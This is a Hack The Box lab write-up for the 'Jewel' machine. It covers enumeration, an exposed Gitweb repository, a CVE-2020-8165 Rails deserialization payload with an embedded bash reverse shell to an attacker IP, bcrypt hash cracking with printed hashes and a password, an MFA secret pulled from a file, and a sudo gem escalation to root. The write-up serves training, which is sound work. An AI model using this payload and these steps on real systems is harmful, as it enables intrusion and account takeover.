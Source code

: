 ```yaml
---
layout: post
title:  "Hack The Box - Jewel Writeup"
date:   2021-02-13 06:00:00
image: 
  path: /assets/img/htb/HTB-Jewel/Header.png
author: Ryan
image: 
  path: /assets/img/htb/HTB-Jewel/Header.png
---
```


- Table of Contents
{:toc .large-only}

*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](/assets/img/htb/HTB-Jewel/Header.png)

Jewel is an Medium level linux machine. Based on the creator and community statistics, we'll likely have a decent amount of enumeration to get through, while working off of existing CVEs against a somewhat realistic environment.  
![Statistics](/assets/img/htb/HTB-Jewel/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -Pn -p22,8000,8080 -sC -sV -oA Extracts/Jewel 10.10.10.211`  
![Nmap](/assets/img/htb/HTB-Jewel/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 8000 - HTTP**: A basic websever hosting what appears to be an instance of [Gitweb](https://git-scm.com/book/en/v2/Git-on-the-Server-GitWeb). We should look for source code here.
* **Port 8080 - HTTP**: Another webserver, but this one is running a small blog off of an installation of [Phusion Passenger](https://www.phusionpassenger.com/).

We'll also want to add Jewel.htb to our hosts file.

### Blog
Navigating the Blog on port 8080, we're able to identify a couple of existing users: `Bill` and `Jennifer`. We're also able to create our own user, but do not appear to have the ability to post content of our own. We can, however, edit our account username.  
![Edit User](/assets/img/htb/HTB-Jewel/Info_Blog.png)

### Gitweb
Moving on to the Gitweb content hosted on port 8000, we appear to have open read-only access to the entire blog project repository. After searching through many of the files, we come across the password hashes belonging to both Bill and Jennifer. Based on the `$2a$` at the start of the hash, we know that they're protected using the bcrypt hashing algorthm. This is a very strong and time consuming hash to break, but we can let it run against the `rockyou.txt` list for a bit while we continue into other areas.

`>> ./hashcat.exe -a0 -m3200 hash.txt rockyou.txt --username`

### Gemfile
In reference to the title of this box, there's a very strong possibility that our foothold will be something to do with Ruby on Rails. The Gemfile can tell us a lot about the project, including any vulnerabilities within the packages being used. By using tools such as [Hakiri](https://hakiri.io/), we're able to identify a range of vulnerabilities.  
![Gemfile Vulns](/assets/img/htb/HTB-Jewel/Info_Gemfile.png)

## Foothold
Reading through our findings, we eventually come across some interesting information regarding [CVE-2020-8165](https://github.com/masahiro331/CVE-2020-8165). It looks like this may be our way in.

### Generating The Payload
Working through the steps provided in the above repo, we're able to put together a payload that should get us a shell onto the box.  
```
code = '`bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"`'
erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1
payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
puts "Payload"
require 'uri'
puts URI.encode_www_form(payload: payload)
```

### Reverse Shell
First thing we'll do is set up our listener on the port we provided in the payload generation.  
`>> nc -lvnp 4444`

Going back to our blog post account, there was one area we were able to submit data: Edit User Account. When we try to submit our payload through the UI, we end up with an error due to the input being too long. But by capturing our request through Burpsuite, we're able to manipulate the data after validation takes place.  
![Burp Proxy](/assets/img/htb/HTB-Jewel/Foothold_Burp.png)  

Refreshing the blog site results in triggering our code.  
![Reverse Shell](/assets/img/htb/HTB-Jewel/Foothold_Shell.png)

### User Flag
![User Flag](/assets/img/htb/HTB-Jewel/User_Flag.png)

## Privilege Escalation
With a direct connection into the box, the first thing we'll do is upgrade our shell:  
`>> python -c "import pty;pty.spawn('/bin/bash')"`  
`>> export TERM=xterm;`  

### Backups
Looking around the box, we come across a backup SQL script, again discovering bcrypt password hashes for the Bill and Jennifer users. While we were unsuccessful in cracking the hashes on our first go around, these hashes are different and may be weaker than before.  

Password Hashes:  
`jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO`  
`bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW`  

`>> ./hashcat.exe -a0 -m3200 hash.txt rockyou.txt --username`  

![Hash Cracking](/assets/img/htb/HTB-Jewel/PrivEsc_Hash.png)

Looks like Bill's password is spongebob. Let's see what he can run as sudo.  
![Sudo Fail](/assets/img/htb/HTB-Jewel/PrivEsc_Sudo1.png)  

### Google Authenticator
A bit different than what we normally encounter, Bill's account is protected by multi-factor authentication. We'll need to find out what he's using and how to get around it.

Back in the /home/bill directory, there's a hidden .google_authenticator configuration file we're able to extract a key from: `2UQI3R52WFCLE6JTLDCSJYMJH4`. Configuring the Google Authenticator plugin for Chrome, we're able to successfully generate a verification token.  

![Google Authenticator](/assets/img/htb/HTB-Jewel/PrivEsc_Authenticator.png)  

### Sudo Gem
Now that we've got Bill's credentials and MFA token, we're able to see that he has the ability to run Ruby's `gem` command as root.  

![Sudo Success](/assets/img/htb/HTB-Jewel/PrivEsc_Sudo2.png)  

Referencing the `gem` section of [GTFOBins](https://gtfobins.github.io/gtfobins/gem/), we're shown how to leverage our access and escalate to root.  
`>> sudo gem open -e "/bin/sh -c /bin/sh" rdoc`  
![Privilege Escalation](/assets/img/htb/HTB-Jewel/PrivEsc_Gem.png)  

### Root Flag
![Root Flag](/assets/img/htb/HTB-Jewel/Root_Flag.png)  
